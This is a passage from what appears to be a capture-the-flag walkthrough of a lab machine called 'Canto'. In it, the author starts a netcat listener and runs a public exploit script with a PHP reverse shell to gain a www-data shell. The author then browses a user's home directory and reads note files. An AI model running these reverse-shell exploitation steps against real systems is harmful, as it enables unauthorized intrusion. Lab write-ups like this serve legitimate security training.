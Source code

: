 With access to the admin area we may be able to exploit the web application. 


# Exploiting Canto

To exploit Canto we run the exploit python script 51826.py after starting a netcat listener first

```bash
# Starting the listener
nc -lnvp 4444

# Running the exploit with php-reverse-shell

python3 51826.py -u http://10.10.99.12 -LHOST 10.10.0.10 -s php-reverse-shell.php
```
**We have a shell!!!**

```bash
Linux canto 6.5.0-28-generic #29-Ubuntu SMP PREEMPT_DYNAMIC Thu Mar 28 23:46:48 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 19:11:40 up 10 min,  0 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 

```

# Look around

First checking the home dirs we found "erik" 

```bash
$ pwd
/home/erik
$ ls -la
total 36
drwxr-xr-- 5 erik www-data 4096 May 12 13:56 .
drwxr-xr-x 3 root root     4096 May 12 14:24 ..
lrwxrwxrwx 1 root root        9 May 12 13:56 .bash_history -> /dev/null
-rw-r--r-- 1 erik erik      220 Jan  7  2023 .bash_logout
-rw-r--r-- 1 erik erik     3771 Jan  7  2023 .bashrc
drwx------ 2 erik erik     4096 May 12 12:21 .cache
drwxrwxr-x 3 erik erik     4096 May 12 12:03 .local
-rw-r--r-- 1 erik erik      807 Jan  7  2023 .profile
drwxrwxr-x 2 erik erik     4096 May 12 17:22 notes
-rw-r----- 1 root erik       33 May 12 12:22 user.txt
```

We can see that we have no access to the user.txt which is most probably the user flag...
Let's check out the notes:

```bash
$ cd notes
$ ls 
Day1.txt
Day2.txt
$ cat Day1.txt
On the first day I have updated some plugins and the website theme.
$ cat Day2.txt
I almost lost the database with my user so I created a backups folder.
```
